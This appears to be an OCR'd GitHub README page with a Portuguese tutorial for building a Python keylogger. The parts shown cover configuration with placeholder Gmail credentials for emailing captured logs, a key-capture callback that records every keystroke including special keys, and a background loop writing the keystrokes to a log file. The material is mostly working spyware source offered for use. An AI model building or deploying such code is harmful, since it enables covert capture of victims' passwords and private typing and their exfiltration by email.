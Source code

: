 
### ⚙️ Parte 2: Configurações iniciais

```python
# Caminhos dos arquivos usados no projeto
CAMINHO_LOG = "log.txt"                  # Arquivo temporário onde as teclas são registradas
CAMINHO_LOG_CRIPTO = "log_encrypted.txt" # Arquivo criptografado
CAMINHO_CHAVE = "chave.key"              # Arquivo que armazena a chave de criptografia

# Credenciais de e-mail
EMAIL_REMETENTE = "seuemail@gmail.com"       # E-mail que envia o log
EMAIL_SENHA = "senha de app do seu email"    # Senha de aplicativo gerada pelo Gmail
EMAIL_DESTINATARIO = "seuemail@gmail.com"    # E-mail que recebe o log

INTERVALO_GRAVACAO = 5  # Intervalo (em segundos) entre gravações do buffer no arquivo
```

---

### ⌨️ Parte 3: Captura de teclas e buffer

```python
fila = Queue()  # Cria uma fila para armazenar teclas pressionadas antes de gravar

# Função chamada a cada tecla pressionada
def capturar_tecla(evento):
    nome = evento.name  # Obtém o nome da tecla

    # Identifica e formata teclas especiais
    if nome == "space":
        fila.put(" ")
    elif nome == "enter":
        fila.put("\n")
    elif nome == "tab":
        fila.put("\t")
    elif nome == "backspace":
        fila.put(" [BACKSPACE] ")
    elif len(nome) == 1:
        fila.put(nome)  # Tecla comum (letra, número ou símbolo)
    else:
        fila.put(f"[{nome}] ")  # Tecla especial (ex: shift, ctrl, etc.)
```

---

### 🗂️ Parte 4: Gravação do buffer em arquivo

```python
# Função que grava o conteúdo da fila no arquivo de log
def gravar_buffer():
    while True:  # Loop contínuo em segundo plano
        if not fila.empty():  # Se houver teclas na fila
            with open(CAMINHO_LOG, "a", encoding="utf-8") as f:
                while not fila.empty():
                    tecla = fila.get()  # Remove a próxima tecla da fila
                    f.write(tecla)      # Escreve no arquivo
        time.sleep(INTERVALO_GRAVACAO)  # Aguarda antes de verificar novamente
```

---